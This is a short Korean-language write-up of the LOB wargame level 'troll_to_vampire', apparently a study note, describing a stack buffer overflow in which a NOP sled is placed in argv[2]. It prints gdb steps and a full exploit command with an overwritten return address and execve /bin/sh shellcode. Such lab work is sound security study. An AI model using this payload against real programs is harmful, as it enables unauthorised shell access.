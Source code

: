 #week2  
##lob  
###troll_to_vampire  
이 문제를 조금 안도했던 것은 다시 argv[2]를 사용하다는 것이었다.  
여기서는 offset의 2번째 byte가 \xff여서는 안된다.  
이 문제를 해결하기 위해 구글링을 한 결과 return address에 매우 큰 값을 넣어야 한다는 것을 알 수 있었다.  
우선 gdb를 연다음 strcpy 호출된 후인 main+140에 브레이크 포인트를 걸었다    
그리고  r $(python -c 'print("\x90"*44+"\xff\xff\xfe\xbf"+" "+"\x90"*100000)') 명령어를 입력하면 잘 돌아가는 것을 확인가능하다.  
다음 x/100s $ebp+1000명령어를 통해  argv[2] 주소를 찾는다.    
이제 다왔으니 아래의 명령어로 쉘 코드를 입력해 key를 얻어낸다.  
./vampire $(python -c 'print("\x90"*44+"\xdc\x77\xfe\xbf"+" "+"\x90"*100000+  
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")')
